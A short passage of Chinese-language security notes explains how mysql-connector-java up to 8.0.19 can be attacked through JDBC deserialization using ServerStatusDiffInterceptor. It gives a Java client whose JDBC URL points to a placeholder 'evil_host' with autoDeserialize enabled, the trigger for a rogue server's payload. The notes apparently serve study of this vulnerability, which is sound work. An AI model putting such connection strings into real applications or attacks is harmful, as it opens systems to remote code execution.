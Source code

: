 !!! tips "版本要求"

    mysql-connector-java 8.0.19 及以下

    低版本利用区别详见参考资料《MYSQL JDBC反序列化解析》

`ServerStatusDiffInterceptor`是一个拦截器，在JDBC URL中设置属性`queryInterceptors`(8.0以下为`statementInterceptors`)为`ServerStatusDiffInterceptor`时，执行查询语句会调用拦截器的 `preProcess` 和 `postProcess` 方法，进而调用 `getObject ()` 方法。

```java title="Client"
import java.sql.*;

public class App {
    public static void main(String[] args) throws Exception {
        String ClassName = "com.mysql.jdbc.Driver";
        String JDBC_Url = "jdbc:mysql://evil_host:port/test?"+
                "autoDeserialize=true"+
                "&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor";
        String username = "root";
        String password = "root";
        Class.forName(ClassName);
        Connection connection = DriverManager.getConnection(JDBC_Url, username, password);
    }
}
```

让我们查看`ServerStatusDiffInterceptor`的调用链：

![alt text](img/14.png){loading=“lazy”}
